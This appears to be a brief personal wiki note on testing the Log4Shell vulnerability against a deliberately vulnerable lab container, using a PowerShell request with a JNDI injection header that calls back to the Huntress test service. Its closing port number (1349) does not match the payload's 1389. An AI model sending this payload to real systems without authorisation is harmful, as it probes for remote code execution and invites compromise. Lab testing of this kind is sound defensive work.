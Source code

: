 ```yaml
---
title: Log4j, log4shell CVE-2021-44228
parent: Cybersec
tags: log4j, log4shell
---
```


## Links 
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://log4shell.huntress.com/

## Powershell testing with log4shell.huntress.com
1. Spin up the container provided by ghcr.io/christophetd/log4shell-vulnerable-app
2. Grab the identifier from https://log4shell.huntress.com
3. Run 
```Powershell
Invoke-RestMethod -Uri http://[IP-of-vulnerable-app]:[port]/ -Headers @{'X-Api-Version' = '${jndi:ldap://log4shell.huntress.com:1389/[identifier-from-log4shell.huntress.com]}'}
```

4. The container should respond with "Hello world" 
![](log4j-container-powershell-testing1.png)

5. Go to https://log4shell.huntress.com and view connection
6. You should see the connection being made
![](log4j-container-powershell-testing2.png)


# Note
This requires the egress of your network to allow port 1349! 


